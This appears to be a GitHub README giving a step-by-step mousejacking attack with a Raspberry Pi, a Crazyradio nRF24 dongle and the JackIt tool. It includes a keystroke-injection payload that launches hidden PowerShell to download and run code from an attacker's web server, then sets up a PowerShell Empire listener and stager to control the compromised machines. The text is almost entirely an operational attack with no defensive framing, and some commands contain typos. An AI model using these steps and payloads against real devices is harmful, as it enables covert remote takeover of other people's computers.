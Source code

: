 ### MOUSE JACKING 

## REQUIREMENTS :-
crazy radio PA usb adapter (chip nRF 24L)
=> MINI RASPBERRY PI 0
=> 3.5/3.7 v BATTERY

## GITHUB LINK :->
https://github.com/insecurityofthings/jackit

## RASPBERRY PI COMMANDS :=>

Step 1 :->  sudo apt-get update
Step 2 :->  sudo apt-get upgrade
Step 3 :->  sudo apt-get install sdcc binutils python python-pip git openssh-server
Step 4 :->  pip install -U pip
Step 5 :->  pip install -U -I pyusb
Step 6 :->  pip install -U platformio
Step 7 :->  gitclone https://github.com/BastilleResearch/nrf-research-firmware
Step 8 :->  cd nrf-research-firmware
Step 9 :->  ls
Step 10 :->  sudo make
Step 11 :->  connect usb dongle to raspberry pi 
Step 12 :->  type => sudo make install
Step 13 :->  gitclone https://github.com/insecurityofthings/jackit.git
Step 14 :->  cd..
Step 15 :->  cd jackit
Step 16 :->  cat requirements.txt
Step 17 :->  sudo pip install -r requirements.txt
Step 18 :->  cd nrf-research-firmware
Step 19 :->  cd tools
Step 20 :->  cd jackit
Step 21 :->  sudo touch pspwn
Step 22 :->  sudo vi pspwn
Step 23 :->  GUI r
Step 24 :->  DELAY 200
Step 25 :->  STRING powershell -W Hidden -nop -noni -c "IEX (New-Object Net.Webclient).downloadstring(http://apachewebserverIP/filename')"     ((EXAMPLE FOR THIS =>> HTTP://192.168.0.0/PSPWN))  
Step 26 :->  enter  =>>  PRESS ESC  =>>  TYPE wq:!  =>>  press ENTER (to save the file)

### to search the listner :=>> 

Step 27 :->  sudo python nrf24-scanner.py -L
Step 28 :->  CTRL + C

## USING EMPIRE IN KALI-LINUX ATTACKER MACHINE

Step 29 :->  sudo apt-get update
Step 30 :->  sudo apt-get upgrade
Step 31 :->  sudo apt-get install -y git apache2 python-pip python-dev python-m2crypto swig
Step 32 :->  sudo pip install pycrypto iptools pydispatcher flask
Step 33 :->  sudo git clone https://github.com/powershellEmprie/Empire.git
Step 34 :->  cd Empire/setup
Step 35 :->  sudo ./install.sh
Step 36 :->  enter
Step 37 :->  cd..
Step 38 :->  cd ./Empire
Step 39 :->  listeners
Step 40 :->  info
Step 41 :->  set name filename(example pspwn)
Step 42 :->  set host http://apachewebserverIP ADDRESS:8080
Step 43 :->  execute
Step 44 :->  list
Step 45 :->  use stager launcher
Step 46 :->  set Listener filename(example pspwm)
Step 47 :->  set Base64 False
Step 48 :->  set Outfile filename.ps1(example pspwn.ps1)
Step 49 :->  generate
Step 50 :->  exit  =>>  ls
Step 51 :->  now copy the file to apache web server folder
Step 52 :->  sudo cp filename.ps1(example pspwn.ps1) /var/www/html/name of the file(example pspwn)
Step 53 :->  sudo ./Empire

## JACKIT TERMINAL 

Step 54 :->  sudo python jackit.py --script pspwn 
Step 55 :->  cntrl + C
Step 56 :->  enter the key no of the mouse targets on the screen for example 1 ,2 ,3.

## KALI LINUX EMPIRE TERMINAL

Step 57 :->  agents
Step 58 :->  interact agentname
Step 59 :->  ls
Step 60 :->  getpid
Step 61 :->  getuid
Step 60 :->  cd c:\Users\ (to run powershell service) 